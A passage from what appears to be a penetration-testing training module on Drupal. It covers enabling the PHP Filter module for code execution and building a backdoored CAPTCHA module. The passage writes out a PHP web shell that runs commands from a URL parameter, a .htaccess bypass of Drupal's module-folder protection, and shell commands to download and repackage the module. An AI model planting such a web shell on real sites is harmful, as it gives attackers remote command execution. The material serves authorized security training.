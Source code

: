 ![](https://academy.hackthebox.com/storage/modules/113/install_module.png)

From here, click on `Browse,` select the file from the directory we downloaded it to, and then click `Install`.

Once the module is installed, we can click on `Content` and create a new basic page, similar to how we did in the Drupal 7 example. Again, be sure to select `PHP code` from the `Text format` dropdown.

With either of these examples, we should keep our client apprised and obtain permission before making these sorts of changes. Also, once we are done, we should remove or disable the `PHP Filter` module and delete any pages that we created to gain remote code execution.

* * *

## Uploading a Backdoored Module

Drupal allows users with appropriate permissions to upload a new module. A backdoored module can be created by adding a shell to an existing module. Modules can be found on the drupal.org website. Let's pick a module such as [CAPTCHA](https://www.drupal.org/project/captcha). Scroll down and copy the link for the tar.gz [archive](https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz).

Download the archive and extract its contents.

```shell
wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
tar xvf captcha-8.x-1.2.tar.gz

```

Create a PHP web shell with the contents:

```php
<?php
system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);
?>

```

Next, we need to create a .htaccess file to give ourselves access to the folder. This is necessary as Drupal denies direct access to the /modules folder.

```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>

```

The configuration above will apply rules for the / folder when we request a file in /modules. Copy both of these files to the captcha folder and create an archive.

```shell
mv shell.php .htaccess captcha
tar cvf captcha.tar.gz captcha/

captcha/
captcha/.travis.yml
captcha/README.md
captcha/captcha.api.php
captcha/captcha.inc
captcha/captcha.info.yml
captcha/captcha.install

<SNIP>

```
